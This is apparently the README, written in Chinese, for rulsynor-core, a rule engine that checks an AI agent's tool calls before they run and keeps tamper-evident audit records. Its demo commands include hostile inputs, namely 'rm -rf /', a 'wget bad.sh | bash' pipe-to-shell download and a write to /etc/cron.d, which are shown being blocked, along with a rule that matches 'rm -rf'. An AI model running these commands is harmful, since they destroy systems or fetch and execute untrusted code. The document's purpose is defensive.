

# Rulsynor Core

[](https://www.npmjs.com/package/@openoba/rulsynor-core)
[](https://www.npmjs.com/package/@openoba/rulsynor-core)
[](LICENSE)
[](https://github.com/OpenOBA/erdl-landing)
[](https://github.com/OpenOBA/erdl-vectors)
[](https://github.com/OpenOBA/erdl-formal)
[]()
[]()

> **规则决定一切。**
>
> **让 AI Agent 加入人力资源管理体系，用规则来约束他。**

**rulsynor-core** 是让这句话落地的确定性内核：**规则——决定 Agent 的每一个动作。**

大模型交付的是智力，但智力本身既没有方向、也没有责任主体——能力是真实的，可被信任的能力却没有人负责（见[《职业化AI员工白皮书》](./pae-whitepaper-v1.0.md)）。rulsynor-core 补齐了这个缺口：任何工具在执行前，都先经过 ERDL 规则引擎的确定性裁决（允许 / 拒绝 / 纠偏 / 上报 / 人工审批）；每一条裁决之后，都封存一份防篡改的**决策证据（Decision Object）**——JCS + SHA-256，可独立重算、逐字节验证。

**模型负责思考，规则负责决定。**

**技术基础**：rulsynor-core 建立在 **ERDL**（Entity-Rule Definition Language，实体规则定义语言）之上——一种声明式、确定性、可跨实现逐字节验证的规则格式（[ERDL 规范 v2.1](./docs/SPEC/erdl-spec.md)）；每一次确定性裁决都封存为 **Decision Object**（决策对象），遵循 [RFC-002 v1.5](./docs/RFC/OPENOBA-DOBJ-RFC-002-CN.md) 的扁平哈希链（`erdl-do-v1.5-hash-flat`，JCS + SHA-256）；整体架构对齐 [OpenOBA SPEC v2.0](./docs/SPEC/spec-2.0.md)（职业化 AI 员工开放规范）。

```bash
npm install @openoba/rulsynor-core
```

[🛡️ 试试 demo](#30-秒见证) · [🧪 快速上手](#快速上手下载--api-key--开箱即用) · [📖 规范](docs/SPEC/) · [🤝 注册表](https://github.com/OpenOBA/erdl-landing/blob/main/REGISTRY.md)

---

## 信任栈 —— 三个独立系统共同验证

rulsynor-core 的确定性不是孤立的承诺，而是三个独立仓库共同验证的结果：

| 层 | 仓库 | 定位 | 现状 |
|---|---|---|---|
| **语言** | [ERDL](https://github.com/OpenOBA/erdl-landing) · `@openoba/erdl`（MIT） | 「规则决定一切」的声明式确定性规则语言：34 节点语义内核 / 30 运算符 / 13 决策 | v2.1 · npm 已发布 |
| **测试** | [erdl-vectors](https://github.com/OpenOBA/erdl-vectors)（向量 CC0 / 代码 Apache） | 跨实现字节级验证：317 条冻结向量，78 条审计层向量已由 2 个独立 runner（Go / Python）逐字节验证 | v1.5 |
| **证明** | [erdl-formal](https://github.com/OpenOBA/erdl-formal)（Apache-2.0） | Z3/SMT 形式化验证：34 节点全覆盖 + E1–E12，把「测试过的确定性」升级为「对所有输入成立的证明」 | v0.1.19 · PyPI 已发布 |

**一句话**：语言定义规则，向量证明「实现一致」，形式化证明「所有输入安全」——确定性从**宣称**、到**测量**、到**证明**，三层递进。

---

## 快速上手：下载 + API key = 开箱即用

> 完整用户指南：[docs/USER-GUIDE.md](docs/USER-GUIDE.md)。

**rulsynor-core 是完整的开箱即用运行时**——不只是库：7 步工作法对话、自己写规则、MCP 接入、防篡改审计可查（CORE 只读查看，导出为商业版能力）。

```bash
# ① 安装（Node ≥ 22.13.0，内置 node:sqlite，零原生依赖）
npm install -g @openoba/rulsynor-core

# ② 零配置试跑（无需 API key）
rulsynor demo --tool=exec --cmd="rm -rf /"   # → DENY

# ③ 配置模型 + API key，然后对话（key 只进环境变量，从不落库）
export RULSYNOR_API_KEY=***            # 任意 OpenAI 兼容服务
rulsynor setup --model gpt-4o-mini --base-url https://api.openai.com/v1
rulsynor chat                                # 7 步：理解意图→制定计划→组装依据→推理决策→规则把关→执行操作→审计落链

# ④ 自己写规则（文档：docs/RULE-AUTHORING.md）
mkdir -p ./rules        # 或 ~/.rulsynor/rules（或设 RULSYNOR_RULES_DIR）
# 放入任意 *.erdl.yaml，启动即加载，过质量门禁
rulsynor rules list

# ⑤ 查看审计记录（只读，不提供导出）
rulsynor audit list
rulsynor audit show sha256:abc   # 单条完整 Decision Object

# ⑥ 以 MCP 工具暴露给任意 MCP 宿主
rulsynor mcp   # stdio：rulsynor_guard_evaluate / rulsynor_rules_list / rulsynor_audit_recent
```

[](#30-秒见证)  ·  [示例](examples/)  ·  [API 参考](#api-参考)  ·  [规范文档](docs/SPEC/)  ·  [参与贡献](CONTRIBUTING.md)

> ⚡ **30 秒接入真实 LLM 体验：**
>
> ```bash
> export OPENAI_API_KEY=***
> npx tsx examples/agent-demo.ts "列出当前目录的文件"
> ```
>
> 兼容任何 OpenAI 接口协议（DeepSeek、Qwen、本地 vLLM…），详见 [`examples/agent-demo.ts`](examples/agent-demo.ts)。

---

## 为什么是 PAE？

一个裸 Agent 只有能力、没有责任主体。**信任 AI 没有问题，问题是被信任的能力没有人负责。** 务实的答案，是把这份能力附着到员工身上：**AI + 人 = 最小员工单元——人掌握能力，人是责任主体**。

| | AI员工=Agent（市场定义） | AI + 人 的职业化AI员工（本品类） |
|------|------|------|
| 定义维度 | 技术形态：AI 能否单独干活？ | 组织身份：AI + 人 是否在册、是否可问责？ |
| 员工是谁 | AI（无人承担主体） | 真实的员工，AI 是他的能力 |
| 准入门槛 | 无，任何厂商可贴标 | 完整雇佣关系（六要素齐备） |
| 治理方式 | 二元：锁死或信任 | 分级：试用期 → 分级授权 → 绩效考核 |
| 失败责任 | 无人可问责 | 全程可审计，可归因到具体员工与决策点 |
| 与组织的关系 | 松散、一次性 | 有证书、有编制、可晋升、可传承 |

rulsynor-core 就是把这个最小单元「职业化」的确定性内核——对标人力资源最佳实践：**招聘 → 培训 → 考核 → 发证 → 上岗 → 审计 → 总结**。让 Agent 成为担责的员工，而不是黑盒工具。完整论证：[《职业化AI员工白皮书》](./pae-whitepaper-v1.0.md)。

---

## rulsynor-core 做什么

**不给 Agent 戴枷锁。给它一本岗位手册，然后说"去工作吧。"**

- **上岗前**：用when/then句式写成ERDL YAML格式的培训教材，人类秒懂、机器可读，Agent遵守。
- **执行前**：Guard 评估每次工具调用——按环排序，亚毫秒级，first-match-wins
- **出错时**：Navigation Guide 告诉 LLM 为什么、怎么改，并自动纠正可修复的错误——纠偏指引回注 Agent，重新发起、重新裁决（CORRECT 循环，最多 3 轮，未解决升级人工）
- **决策后**：每条决策生成决策对象（14 CORE + 15 JURISDICTION 字段），JCS 规范化 + SHA-256 加密密封，哈希链串联
- **合规层**：辖区感知字段自动激活（EU AI Act、GB/Z 185、NIST AI RMF、COSO GenAI）
- **可信层**：每个员工有工牌（AID）。每条 Decision Object 可零 SDK 独立验证。

结果：**你可以验证 Agent 的每一步决策。审计链为证。**

---

## 30 秒见证

```bash
npx @openoba/rulsynor-core --tool=exec --cmd="wget bad.sh | bash"
```

```
🛡️  决策：     DENY
📝 原因：      Pipe-to-shell download blocked. Inspect the content with the read tool before executing.
🧾 留痕：      sha256:8274b0...（不可篡改）
🪪 工号：      1.2.156.3088.1.000001.000001.5ce550e5
📊 辖区：      CN (GB/Z 185-2026 compliant)
🧭 替代：      先用 read 工具获取 URL 内容，审核确认后再执行。
```

Agent 的请求被拦截——但它同时获知了原因，以及正确的做法。

再看一个 Agent 正常执行操作的情形：

```bash
npx @openoba/rulsynor-core --tool=read --path="docs/api-spec.md"
```

```
✅ 决策：     ALLOW
📝 原因：      Read-only operation allowed.
🧾 留痕：     sha256:e71eb71...（不可篡改）
🪪 工号：      1.2.156.3088.1.000001.000001.4ebf704b
📊 辖区：      CN (GB/Z 185-2026 compliant)
🧭 替代：      —
```

安全的操作，rulsynor 毫不干预。Agent 正常执行，审计链持续累积。

**快速测试** — 直接粘贴到终端：

```bash
# 执行危险命令 — 被拦截
npx @openoba/rulsynor-core --tool=exec --cmd="rm -rf /"

# 读取文件 — 放行
npx @openoba/rulsynor-core --tool=read --path="README.md"

# 写入系统目录 — 被拦截
npx @openoba/rulsynor-core --tool=write_file --path="/etc/cron.d/x"
```

> 💡 以上演示的是单次工具调用的 CLI 评估（不包含 LLM）。
> 如需完整的 ReAct Agent + Guard + 审计链体验，请看
> [`examples/agent-demo.ts`](examples/agent-demo.ts) — `npx tsx examples/agent-demo.ts "你的任务"`

---

## 全生命周期：培训 → 上岗 → 纠偏 → 证明

rulsynor 将人力资源管理的成熟实践，映射到 AI Agent 治理之上：

```
撰写规则 ──→ 培训 ──→ 上岗 ──→ 执行（Guard 护航）──→ 纠偏（CORRECT 3 轮纠正循环）──→ 审计每一步
```

它不是"安全过滤器"。它是让你**验证 Agent 每一步决策**的治理基础设施。

---

### 一、撰写规则 —— Agent 的岗位手册

规则是 ERDL YAML。每条规则说：在什么条件下，引导 Agent 走向正确的做法。

```yaml
# rules/finance-team.erdl.yaml

protocol: "erdl/v2"
version: "2.1.0"
metadata:
  name: "finance-team"
  description: "财务团队规则"
  category: workflow
  decision: ALLOW
rules:
  # 财务团队需要查生产库做报表——但要审批
  - name: SEC-020-production-db-approval
    description: "生产数据库访问需要审批。"
    category: workflow
    priority: 500                  # 数字越小越先检查
    override: high
    ring: 2                        # 0=最先评估, 3=最后评估
    when:
      logic: AND
      conditions:
        - field: "tool.name"
          operator: eq
          value: "exec"
        - field: "tool.args.command"
          operator: contains
          value: "PRODUCTION_DATABASE"
    then: REQUEST_HUMAN             # 不是 DENY——是"找你领导审批"
    message: "生产数据库访问需要审批。"
    correction: "把连接字符串改成 STAGING_DATABASE 然后重试。"
    alternative: "请用 STAGING_DATABASE。如果确实需要生产库，你的主管可以审批这条请求。"

  # 大批量写入是正常的批处理任务——告警就好，不拦截
  - name: CNV-001-large-write-advisory
    description: "大批量写入记录即可，不拦截。"
    category: convention
    priority: 300
    ring: 3                        # 被动环——记录即可，不拦截
    when:
      logic: AND
      conditions:
        - field: "tool.name"
          operator: eq
          value: "write_file"
        - field: "tool.args.content"
          operator: length_gt
          value: 10485760          # 10MB
    then: ALLOW                     # 放行——批处理任务
    message: "大批量写入（>10MB）已记录。建议分块以提高可靠性。"
```

**核心洞察**：规则不是阻碍工作的，规则定义的是工作的**正确方式**。

**可用运算符**（30 种——28 种条件运算符 + 2 种修饰符 `within`/`rate`，Spec v2.1 §5.2）：`eq`, `ne`, `gt`, `gte`, `lt`, `lte`, `in`, `not_in`, `contains`, `not_contains`, `match`, `starts_with`, `ends_with`, `not_starts_with`, `not_ends_with`, `exists`, `not_exists`, `length_gt`/`gte`/`lt`/`lte`/`eq`, `between`, `not_between`, `count_gt`/`gte`/`lt`/`lte`

**规则可以做的决策**（Spec v2.1 §6）：

| 决策 | 含义 | 什么时候用 |
|------|------|------|
| `ALLOW` | 放行，已记录 | 安全操作、批处理任务、已知模式 |
| `DENY` | 不行。告诉你为什么，告诉你怎么办。 | 危险操作但有明确替代方案 |
| `CORRECT` | 自动纠正并重试（最多 3 轮，每轮重新裁决；未解决 → 升级人工） | 路径写错、格式不对、可修复的错误 |
| `QUARANTINE` | 沙箱执行，标记审查 | 可疑但有可能合法 |
| `ROLLBACK` | 回滚上一步操作 | 不可逆副作用防护 |
| `REQUEST_HUMAN` | 找人审批再执行 | 生产库操作、GDPR 删除、>$5K 交易 |
| `ESCALATE` | 升级到更高权威 | 跨团队边界、策略例外 |
| `DELEGATE` | 委派给其他 Agent/角色 | 专业任务转交 |
| `EMERGENCY_HALT` | 立即停摆所有操作 | 凭证泄漏、SSRF 攻击 |

**执行环**——哪些规则先触发（Spec v2.1 §4.1 `ring` 字段：0 内核 / 1 恢复 / 2 审批 / 3 建议）：

| 环 | 评估顺序 | 典型规则 |
|:---:|------|------|
| 0 | 最先 | DROP TABLE、凭证泄漏、SSRF |
| 1 | 其次 | 参数缺失、超大载荷、chmod 777 |
| 2 | 再次 | 修正路径错误、建议更好端口 |
| 3 | 最后 | 只读 allowlist、纯日志告警 |

#### 用自然语言写规则

写规则不需要会 YAML。用大白话描述你想要什么，任何大模型都能把它翻译成 ERDL YAML：

> "如果 Agent 执行的命令里包含 `rm -rf`，直接拦截，并告诉它先检查文件。"

模型返回一条可直接保存的规则：

```yaml
protocol: "erdl/v2"
version: "2.1.0"
metadata:
  name: "security-guard"
  category: security
  decision: ALLOW
rules:
  - name: SEC-001-block-destructive-rm
    description: "拦截破坏性的 rm -rf 命令。"
    category: security
    priority: 900
    override: critical
    ring: 0
    when:
      logic: AND
      conditions:
        - field: "tool.name"
          operator: eq
          value: "exec"
        - field: "tool.args.command"
          operator: contains
          value: "rm -rf"
    then: DENY
    message: "破坏性命令已拦截。"
    alternative: "请先用 read 工具检查目标，或请求人工审批。"
```

把 [docs/RULE-PROMPT.md](docs/RULE-PROMPT.md) 中的提示词模板复制出来，粘贴到 ChatGPT、Claude 或任何大模型中，描述你的规则，把输出保存为 .erdl.yaml 即可。编译器在加载前会验证每条规则（ReDoS 安全、运算符白名单、必填字段）——部署前请务必人工复核。模型负责起草，规则手册由你定稿。

---

### 二、培训 —— 编译并加载

```typescript
import { loadPresetRules, toCompiledRules } from '@openoba/rulsynor-core';

// 34 条内置安全规则 + 你的业务规则
const presetRules = loadPresetRules();           // PresetRule[]
const rules = toCompiledRules(presetRules);       // CompiledRule[] — 引擎直接消费

// 自定义规则：加载自己的 .erdl.yaml
import { readFileSync } from 'fs';
const yaml = readFileSync('rules/finance-team.erdl.yaml', 'utf8');
// 用 toRuleDefinitions() / toERDLRuleSet() / toCompiledRules() 转换
```

**培训即编译**：YAML 规则被解析、验证（ReDoS 检测、运算符白名单、必填字段检查），编译为静态决策树。引擎运行时不再解析。

---

### 三、上岗 —— 插入 Guard，然后信任

Guard 放在 Agent 的工具调用边界。执行前评估——按环排序，first-match-wins，亚毫秒级开销。

```typescript
import { Evaluator, GuardStateManager } from '@openoba/rulsynor-core';

const evaluator = new Evaluator(new GuardStateManager());

// 这是你的 Agent 工具执行包装器：
async function executeToolCall(toolName: string, args: Record<string, unknown>) {
  const ctx = { tool: { name: toolName, args }, sessionId, agentId };

  const result = evaluator.evaluate(rules, ctx);

  switch (result.decision) {
    case 'ALLOW':
      // ✅ 安全——正常执行，记录审计
      return execute(toolName, args);

    case 'CORRECT':
      // 🔧 CORRECT 循环（原始设计）——纠偏指引回注，Agent 重新发起，Guard 逐轮重裁（最多 3 轮）。
      // runReActLoop 已内置接线；自研分发宿主用同一个 advanceCorrectLoop() 状态机驱动。
      return runCorrectLoop(toolName, args, result); // 解决 → 执行纠正后调用；3 轮未解决 → REQUEST_HUMAN

    case 'REQUEST_HUMAN':
      // 👤 升级——展示原因 + 替代方案
      return showApprovalDialog(result.primaryReason, result.primaryAlternative);

    case 'DENY':
      // 🛑 拦截但给出引导——Agent 学到后换种方式重试
      throw new Error(result.primaryReason ?? '已拦截，请 Agent 换一种方式重试');

    case 'QUARANTINE':
      // 🧪 沙箱——执行但标记审查
      return sandboxExecute(toolName, args, { reviewReason: result.primaryReason });
  }
}
```

**LangChain**：用 `createToolExecutor` 包装工具。**MCP Server**：拦截 `CallToolRequest`。**自定义 ReAct 循环**：每次工具执行前调 `evaluator.evaluate(rules, ctx)`。相同的模式，相同的 API。

> 📦 **开箱即用的完整示例**：[`examples/agent-demo.ts`](examples/agent-demo.ts) — 包含 ReAct Agent + 34 条预设规则 + 审计链的完整实现。`export OPENAI_API_KEY=*** && npx tsx examples/agent-demo.ts "你的任务"`

---

### 四、引导系统 —— 助 Agent 达成目标

规则触发后，Agent 得到的不是"不行"。**Navigation Guide** 把 LLM 需要的回复信息全部返回：

```typescript
import { extractNavigationGuide } from '@openoba/rulsynor-core/guidance';

const guide = extractNavigationGuide({
  matchedRules: [{ ruleId: 'production-db-needs-approval', decision: 'REQUEST_HUMAN', reason: '...' }],
  decision: 'REQUEST_HUMAN',
  reason: '生产数据库访问需要审批。',
  rules: [...],  // 包含 action.alternative / action.correction 元数据的规则
});

// guide.corrections    → ["把连接字符串改成 STAGING_DATABASE 然后重试。"]
// guide.alternatives   → ["请用 STAGING_DATABASE。如果确实需要生产库，你的主管可以审批这条请求。"]
// guide.blockedReasons → ["production-db-needs-approval: 生产数据库访问..."]
```

把 `guide.corrections` 和 `guide.alternatives` 注入到下一个 LLM `assistant` 消息中。Agent 据此自行调整，回归合规路径。

**CORRECT 循环（原始设计）**：收到 `CORRECT` 裁决时，内置运行时把纠偏指引作为工具反馈回注给 Agent；Agent 重新发起调用，Guard 对每次重试做确定性重裁（`advanceCorrectLoop()` 状态机，最多 3 轮）。纠正后拿到 `ALLOW` → 循环解决，执行纠正后的调用；3 轮仍是 `CORRECT` → 升级人工（`REQUEST_HUMAN`）；遇到硬 `DENY`/`EMERGENCY_HALT` → 退出循环，按裁决封锁。**原始参数永不执行**——任何执行都需要一次全新的 `ALLOW` 裁决。自研分发的宿主可直接驱动同一个导出状态机：

```typescript
import { advanceCorrectLoop } from '@openoba/rulsynor-core/preflight';

const state = advanceCorrectLoop(
  {
    ruleId: 'correct-unsafe-path',
    originalToolCall: { name: 'write_file', args: { path: '/etc/nginx/conf' } },
    correction: '把路径从 /etc/ 改成 /var/app/',
    round: 1,
    state: 'correct_round_1',
  },
  evaluationResult.decision,  // 例如 'CORRECT' 或 'ALLOW'
);
// state.execute → true（Agent 采纳了修正）。任务继续。
// 3 轮失败后：state.escalate → true。触发 REQUEST_HUMAN。
```

---

### 五、审计 —— 每一步，可验证

每一次评估——ALLOW、DENY、CORRECT 都算——生成一个决策对象（14 CORE + 15 JURISDICTION 字段）。JCS 规范化（RFC 8785），SHA-256 哈希。记录不可篡改，任何人可独立验证，无需 SDK：

```typescript
import { buildDecisionObject } from '@openoba/rulsynor-core';

const record = buildDecisionObject({
  input: {
    runId: crypto.randomUUID(),
    step: 3,
    toolName: 'exec',
    toolArgs: { command: 'npm run build' },
    context: { task: 'deploy-frontend' },
    agentId: 'agent-frontend-01',
    sessionId: 'deploy-session-42',
    previousAuditHash: previousDO.audit.hash,  // 链位置
  },
  decision: 'ALLOW',
  actionTaken: 'allowed',
  reason: '构建命令 — allow-readonly 规则放行',
  matchedRules: [{ ruleId: 'allow-readonly', decision: 'ALLOW', reason: '只读操作允许。' }],
  totalEvaluated: 29,
  totalMatched: 1,
  rules: rules.map(r => ({ id: r.id, name: r.name, version: 1 })),
  evaluationDurationMs: 1,  // 实际测量值（毫秒）
});

// record.audit.hash            → "sha256:a1b2c3..." — 不可变
// record.audit.previous_hash   → 上一条 DO 的哈希 — 链已验证
// record.execution_trace_id    → 串联此任务所有步骤的 UUID
// 设置 RULSYNOR_JURISDICTIONS="CN,EU" 后：
//   record.agent.aid           → "1.2.156.3088.1.000042.000003.a3f8c1"（CN GB/Z 185）
//   record.compliance_profile  → EU AI Act + GB/Z 185 字段已激活
```

**链验证**——从任意节点追溯：

```typescript
function verifyChain(records: DecisionObject[]): boolean {
  for (let i = 1; i < records.length; i++) {
    if (records[i].audit.previous_hash !== records[i-1].audit.hash) {
      return false;  // 链断裂 — 检测到篡改
    }
  }
  return true;
}
```

**独立验证**（无需 rulsynor SDK）：
```
1. 取决策对象 JSON
2. 删除 audit.hash、signature、signing_key_id
3. JCS 规范化（RFC 8785）
4. SHA-256 → 前缀 "sha256:"
5. 必须与 audit.hash 完全一致
```

或使用独立验证工具（`@openoba/audit-verify`，开源，MIT，零依赖）：

```bash
npx @openoba/audit-verify decision-object.json
# ✅ sha256 匹配 — 记录真实有效
```

---

### 六、Agent 身份 —— 每个员工都有工牌

```typescript
import { generateAID } from '@openoba/rulsynor-core';

// 默认自生成（OID 前缀 1.2.156.3088）
const aid = generateAID();

// 自定义：
//   RULSYNOR_AID_REGISTRAR=000042   — 你的企业
//   RULSYNOR_AID_REQUESTER=000003   — 你的部门

// AID = 1.2.156.3088.1.{REGISTRAR}.{REQUESTER}.{INSTANCE_HASH}（28 位）
// AID 进入审计哈希 — 伪造它就会断裂审计链
```

---

### 七、辖区合规 —— 一次配置，处处生效

```bash
export RULSYNOR_JURISDICTIONS="CN,EU"
export RULSYNOR_INDUSTRY="financial-services"
export RULSYNOR_RISK_LEVEL="high"
```

```typescript
import { getComplianceProfile } from '@openoba/rulsynor-core/compliance';

const profile = getComplianceProfile();
// activated_fields 自动填充 CN（GB/Z 185）+ EU（AI Act）所需字段
// 每个 DO 携带这些字段 → 它们进入审计哈希 → 强制合规，不是口头合规
```

**内置监管框架**（14 框架目录中的 6 个，RFC-002 §5.2）：EU AI Act、GB/Z 185-2026（中国）、NIST AI RMF（美国）、COSO GenAI（通用）、LGPD（巴西）、DPDP（印度）

---

### 八、扩展 —— 你的业务逻辑，你的规则

```typescript
import { ERDLFnRegistry } from '@openoba/rulsynor-core/engine';

const registry = new ERDLFnRegistry();
registry.register({
  signature: {
    name: 'isBusinessHours',
    signature: 'isBusinessHours(tz) → boolean',
    params: ['tz'],
    returns: 'boolean',
  },
  impl: (tz?: string) => {
    const tzId = tz || 'Asia/Shanghai';
    const h = parseInt(
      new Date().toLocaleString('en-US', { timeZone: tzId, hour: 'numeric', hour12: false })
    );
    return h >= 9 && h < 18;
  },
  timeoutMs: 100,
});

// 规则中使用：
//   - field: "fn:isBusinessHours"
//     operator: eq
//     value: true
```

---

## 架构图



---

## API 参考

完整公开 API（核心导出、子路径、Decision Object 字段、环境变量）见 [`docs/API.zh-CN.md`](docs/API.zh-CN.md)。

---

## 规范文档

本包附带以下规范参考文档：

| 文档 | 路径 | 说明 |
|------|------|------|
| ERDL 规范 v2.1 | [docs/SPEC/erdl-spec.md](docs/SPEC/erdl-spec.md) | ERDL 语言规范（中文） |
| ERDL 规范 v2.1 (EN) | [docs/SPEC/erdl-spec.en.md](docs/SPEC/erdl-spec.en.md) | ERDL 语言规范（英文） |
| SPEC v2.0 | [docs/SPEC/spec-2.0.md](docs/SPEC/spec-2.0.md) | OpenOBA 职业化AI员工 开放规范（中文） |
| SPEC v2.0 (EN) | [docs/SPEC/spec-2.0-en.md](docs/SPEC/spec-2.0-en.md) | OpenOBA 职业化AI员工 开放规范（英文） |
| RFC 002 | [docs/RFC/OPENOBA-DOBJ-RFC-002-CN.md](docs/RFC/OPENOBA-DOBJ-RFC-002-CN.md) | Decision Object 审计标准 v1.5（中文） |

跨实现测试向量集已独立维护于权威仓库：[`OpenOBA/erdl-vectors`](https://github.com/OpenOBA/erdl-vectors)。任何兼容的 ERDL 引擎均可基于已发布的向量独立自测。

---

## 已知限制

早期 alpha：确定性内核已对齐 ERDL 规范 v2.1 与 Decision Object v1.5 扁平哈希，但以下尚未完成：

- **签名模式（ECDSA P-256）**：未实现。Decision Object 仅以哈希模式产出；`signature`/`signing_key_id` 省略（无占位值）。`risk_level=critical` 暂无法满足——合规验证器会报 `compliance_field_missing`（设计上 fail-close）。
- **合规框架目录**：14 框架中已内置 6 个（RFC-002 §5.2）——EU AI Act、GB/Z 185、NIST AI RMF、COSO GenAI、LGPD、DPDP。
- **三层激活**：仅实现法域层；行业条件层与风险条件层（除 `critical → signature` 外）待实现。
- **PII 脱敏**：`sanitized_context` 激活时以空字符串产出——`tool.args` 的脱敏是规划中功能。
- **AID**：以 OID `1.2.156.3088` 自生成，尚未在外部注册机构登记；`algorithm_filing_no` / `model_registration_id` 为 `NOT_FILED`（待中国网信办备案）。
- **双语文档**：英文 + 中文；运行时通过 LLM 支持任意语言。

---

## 参与贡献

- ⭐ **Star 本仓库** 跟进进度
- 🧪 **试试 demo**：`npx @openoba/rulsynor-core --tool=exec --cmd="rm -rf /"`
- 📖 **读规范**：[ERDL v2.1](https://github.com/OpenOBA/erdl-landing)
- 🧩 **写一个 Runner**：[加入一致性注册表](https://github.com/OpenOBA/erdl-landing/blob/main/REGISTRY.md)
- 💬 **讨论**：[GitHub Discussions](https://github.com/OpenOBA/rulsynor-core/discussions)

---

## 许可证

BUSL-1.1 © 2026-present OpenOBA（[深圳市秒镜科技有限公司](https://openoba.com)）

> "规则决定一切。"
>
> 培训你的 Agent。验证每一步执行。

---

[OpenOBA](https://openoba.com) — 职业化AI员工平台[PAE]
